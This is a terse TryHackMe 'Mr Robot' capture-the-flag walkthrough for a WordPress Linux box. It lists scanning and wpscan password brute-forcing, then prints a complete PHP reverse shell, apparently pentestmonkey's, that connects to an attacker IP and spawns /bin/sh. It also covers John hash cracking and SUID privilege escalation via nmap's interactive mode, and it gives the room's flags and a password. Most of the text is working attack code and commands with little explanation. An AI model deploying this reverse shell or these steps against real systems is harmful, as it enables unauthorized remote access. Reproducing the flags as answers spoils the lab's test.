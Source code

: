 ```yaml
---
layout: post
title: mr robots
date: 2021-04-09
categories: [tryhackme, Medium]
tags: [gobuster, code-analysis, Exploit] # add tag
image: /assets/img/mr.robot/mrrobot.jpg
---
```


|Machine|Detail
|:---|:--
|Release date | 12 Sep 2020
|OS | Linux
|Rating | Medium
|Creator | [Ben](https://tryhackme.com/p/ben)

nmap -sC -sV ip -T5

gobuster dir -u ip -w /usr/share/wordlists/dirb/common.txt

<ip mechine>/key-1-of-3.txt ```[ 073403c8a58a1f80d943455fb30724b9 ]```

wc -l fsocity.dic

sort fsocity.dic | uniq > fsocity-sorted.dic

wc -l fsocity-sorted.dic

open browser ```<ip mechine>/wp-admin```

wpscan --url <ip mechine> --wp-content-dir wp-admin --usernames elliot --passwords ~/Downloads/fsocity-sorted.dic

http://<ip mechine>/wp-admin/theme-editor.php?file=archive.php&theme=twentyfifteen&scrollto=3409
	
# shell backdoor

```bash

<?php
See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '<ip mechine>';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  
   1 => array("pipe", "w"),  
   2 => array("pipe", "w")   
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```

### nc -nlvp 1234

http://<ip mechine>/wp-content/themes/twentyfifteen/archive.php

### sukses

cat password.raw-md5

john hash.txt --wordlist=~/Downloads/fsocity.dic --format=RAW-MD5

```python -c 'import pty; pty.spawn("/bin/bash")'```

su robot

password : ```abcdefghijklmnopqrstuvwxyz```

cat ~/key-2-of-3.txt ```[ 822c73956184f694993bede3eb39f959 ]```

```find / -perm /4000 -print 2>/dev/null```

nmap --interactive

use command ```!sh``` 

